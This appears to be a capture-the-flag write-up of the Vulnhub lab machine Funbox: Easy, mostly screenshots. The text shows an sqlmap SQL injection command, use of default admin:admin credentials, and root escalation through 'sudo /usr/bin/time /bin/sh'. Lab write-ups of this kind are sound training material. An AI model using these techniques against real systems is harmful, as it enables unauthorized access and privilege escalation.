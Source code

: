 ```yaml
---
title: Funbox-:-Easy
categories: [Proving Grounds Play, Funbox]
tags: [PrivEsc, Sqlmap, timedatectl, File Upload, time]
image:
  path: https://www.piratemoo.com/content/images/2022/12/funboxeasy.png
  alt:  Funbox-Easy Machine 🖥️
---
```


| Machine     | <center>Details</center>                                                  |
| ----------- | ------------------------------------------------------------------------- |
| **Vulnhub** | https://www.vulnhub.com/entry/funbox-easy,526/                            |
| **Level**   | <center>script-kiddies</center>                                           |
| **Creator** | <center><a href="https://www.vulnhub.com/author/0815r2d2,714/">0815R2d2</a></center> |


## **Description ⤵️**

>
💡 Boot2Root ! Easy going, but with this Funbox you have to spend a bit more time. Much more, if you stuck in good traps. But most of the traps have hints, that they are traps.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware
<br>
This works better with VirtualBox rather than VMware.
<br>
{: .prompt-info }

### Let’s find the IP Address first >>

![164-1.png](/Vulnhub-Files/img/Funbox-Easy/164-1.png)

```bash
IP : 10.0.2.17
```
{: .nolineno}

## Port Scan Results ➡️

![164-2.png](/Vulnhub-Files/img/Funbox-Easy/164-2.png)

```bash
OPEN PORTS >
22     SSH
80     HTTP
33060  mysql
```
{: .nolineno}



## Web Enumeration ⤵️

![164-3.png](/Vulnhub-Files/img/Funbox-Easy/164-3.png)

![164-4.png](/Vulnhub-Files/img/Funbox-Easy/164-4.png)

![164-5.png](/Vulnhub-Files/img/Funbox-Easy/164-5.png)

So with sql injection on store site I got this →

```bash
command :
sqlmap -u "<URL>" --risk 3 --level 5
```
{: .nolineno}

![164-6.png](/Vulnhub-Files/img/Funbox-Easy/164-6.png)

![164-7.png](/Vulnhub-Files/img/Funbox-Easy/164-7.png)

```bash
admin : admin
```
{: .nolineno}

![164-8.png](/Vulnhub-Files/img/Funbox-Easy/164-8.png)

Got access →

![164-9.png](/Vulnhub-Files/img/Funbox-Easy/164-9.png)

After accessing that page I got this →

![164-10.png](/Vulnhub-Files/img/Funbox-Easy/164-10.png)

---

## SHELL ➡️

Got something →

![164-11.png](/Vulnhub-Files/img/Funbox-Easy/164-11.png)

![164-12.png](/Vulnhub-Files/img/Funbox-Easy/164-12.png)

Now lets check the `sudo -l` for root access through tony →

![164-13.png](/Vulnhub-Files/img/Funbox-Easy/164-13.png)

Now I got too much options so lets try least interesting one time →

```bash
command : sudo /usr/bin/time /bin/sh
```
{: .nolineno}

![164-14.png](/Vulnhub-Files/img/Funbox-Easy/164-14.png)

![164-15.png](/Vulnhub-Files/img/Funbox-Easy/164-15.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }